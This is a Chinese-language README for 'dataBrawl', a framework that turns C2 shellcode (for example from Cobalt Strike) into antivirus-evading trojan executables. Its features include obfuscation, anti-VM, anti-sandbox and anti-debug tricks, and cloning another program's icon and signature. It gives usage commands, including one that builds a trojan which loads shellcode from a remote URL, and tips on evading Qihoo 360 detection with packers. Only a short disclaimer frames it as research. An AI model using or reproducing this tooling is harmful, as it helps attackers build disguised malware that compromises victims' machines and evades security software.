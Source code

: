 # dataBrawl

**（2024年6月28日注：大型活动期间暂停维护，已删除核心template）**

![dataBrawl](./assets/dataBrawl.png)

一款一键化生成免杀木马的shellcode免杀框架，具备**本地加载**方式和**远程加载**方式。

## Feature
1. 本地/分离加载
2. ollvm混淆编译/gcc编译
3. IAT obfuscate
4. Anti-VM
5. Anti-Sandbox（API Hammering，自定义sleep）
6. Anti-Debug
7. 内存加密
8. add resource/sign




## 环境准备

本工具使用mingw或ollvm编译，ollvm编译无需准备编译环境（生成exe较大，qvm需额外操作）

使用mingw编译需要准备好编译环境，下载mingw编译器：

官网地址：https://www.mingw-w64.org/

Windows下载链接： https://sourceforge.net/projects/mingw-w64/files/

我下载的是x86_64-win32-seh，具体请根据系统情况适配，也可以直接下载online installer

<img src="./assets/image-20240417134130271.png" alt="image-20240417134130271" style="zoom:50%;" />



添加系统环境变量：

path = 解压目录/mingw64/bin

最好把include和lib也对应添加到环境变量的include和lib中，以免编译找不到链接库



## 使用说明

python dataBrawl.py -h

![image-20240625170435636](./assets/image-20240625170435636.png)

#### 本地加载shellcode

CS或其他C2生成shellcode

![image-20240417140327230](./assets/image-20240417140327230.png)

-i 指复制目标exe的资源、图标和签名信息

```shell
python dataBrawl.py D:\Dev\dataBrawl\payload_x64.bin -b 1 -t stdtemp -i "C:\Users\xxx"
```

![image-20240625170651334](./assets/image-20240625170651334.png)

默认在项目跟目录生成result.exe，也可-o指定输出位置

这里是使用gcc编译，目前qvm未报毒，ollvm编译把-b选项输入2，目前qvm存在问题，可以再加个壳，我这里使用enigma protector ，自己大概选择配置下，qvm都无法拦截。https://down.52pojie.cn/Tools/Packers/The_Enigma_Protector_v7.40_x32_x64.rar 不过qvm比较玄学，可能过两天就报毒了，可以直接ollvm编译+壳。

![image-20240626110232217](./assets/image-20240626110232217.png)

使用ollvm加壳后如果还杀，就改一下加壳的选项。



#### 远程加载shellcode

先生成加密shellcode

```
python dataBrawl.py D:\Dev\dataBrawl\payload_x64.bin -c 1 -t remote
```

使用远程模板生成木马

```shell
python dataBrawl.py http://www.xxx.com/shellcode.bin -b 1 -t remote -i "C:\Users\xxx"
```



# ⚠️ Warning

**免责声明:** 请注意，本仓库仅用于学习和研究目的。在使用任何与恶意软件开发相关的技术时，请遵守当地法律法规，不要进行任何违法活动。对于任何不当使用造成的后果，本仓库的维护者不承担任何责任。

欢迎提出建议、报告漏洞或贡献代码以改进本仓库的内容。让我们共同努力，提高网络安全意识和技术水平！

